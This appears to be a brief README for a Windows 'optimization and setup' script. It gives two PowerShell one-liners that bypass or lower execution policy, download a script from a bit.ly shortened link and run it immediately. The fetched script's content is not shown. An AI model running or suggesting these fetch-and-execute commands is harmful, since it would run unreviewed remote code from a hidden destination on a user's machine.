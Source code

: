 # pc-setup-script
Automated Windows optimization and setup script

Set-ExecutionPolicy -ExecutionPolicy RemoteSigned -Scope CurrentUser -Force

iwr -useb https://bit.ly/win-pc-config -OutFile $env:TEMP\optimize.ps1; & $env:TEMP\optimize.ps1





or




powershell -ExecutionPolicy Bypass -Command "iwr -useb https://bit.ly/win-pc-config -OutFile $env:TEMP\optimize.ps1; & $env:TEMP\optimize.ps1"
